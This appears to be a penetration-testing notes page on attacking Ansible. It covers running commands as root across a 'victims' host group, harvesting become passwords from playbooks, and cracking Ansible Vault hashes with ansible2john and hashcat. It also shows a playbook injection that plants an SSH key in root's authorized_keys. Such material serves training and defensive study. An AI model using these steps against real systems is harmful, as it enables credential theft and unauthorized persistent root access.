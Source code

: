 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
                
<style media="screen">
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    outline: 0;
    cursor: pointer;
    border: 2px solid #000;
    border-radius: 3px;
    line-height: 1.5px;
    padding: 15px 10px;
    text-align:center;
    transition-duration: .15s;
    transition-property: all;
    transition-timing-function: cubic-bezier(.4,0,.2,1);
    :hover{
        color: #000;
        background: red;
           }
    position: absolute;
    top: 4px;;
    left: 965px;
  }
</style>

<!--     
font-weight: 300;
    color: #fff;
    background: #000;
-->

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = "Copy";
      copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      // insert a copy button
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "Copied";
        copyCodeButton.classList.add("btn-success");
        copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "Copy";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.classList.add("btn-outline-primary");
        }, 2000);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
